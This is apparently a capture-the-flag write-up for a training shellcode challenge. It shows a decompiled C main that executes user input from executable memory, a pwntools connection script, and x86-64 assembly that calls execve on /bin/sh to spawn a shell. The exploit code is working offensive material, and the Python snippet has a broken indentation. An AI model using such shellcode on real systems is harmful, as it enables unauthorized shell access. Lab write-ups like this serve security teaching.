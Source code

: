 This is an easy shellcode challenge, it presents this main:
```c
void main(void)

{
  code *shellcode;
  
  shellcode = (code *)mmap((void *)0x0,0x1000,7,0x22,-1,0);
  read(0,shellcode,0x200);
  (*shellcode)(0,0,0,0,0,0);
  return;
}
```
as we can see it create a memory space that of 0x1000 bytes that is readable writable and executable.
Then reads directly in this memory area and call the memory area as a function.
We can inject in that memory area a shellcode and that will be executed!
Our aim is to create a shellcode that will spawn a shell.
First of all we create a script python to interact with the binary:
```python
from pwn import *

import time
context.terminal = ['tmux', 'splitw', '-h']
context.arch = 'amd64'
exename="./backtoshell"
port=2015
if "REMOTE" not in args:
	r = process(exename)
	if "NOGDB" not in args:
		gdb.attach(r, """
			# b d
			c
			""")
	else:
	r = remote("bin.training.offdef.it", port)
r.interactive()
```

in GDB we can see that the when our input is called as a function the address to our input is in rax, so we can create a shellcode in this way:
```python
asm_code="""
mov rdi, rax
add rdi,16
mov rax, 0x3b
syscall
"""
shellcode=asm(asm_code)
```
the "add rdi 16" instruction is to make rdi point to "/bin/sh/\x00", that we will put just after the shellcode in our payload. 16 is just the size of the shellcode.
Mov rax 0x3b and syscall will make our machine execute execve.
at the end we will send the payload in this way:
```python
payload=shellcode+b"/bin/sh\x00"
r.sendline(payload)
```
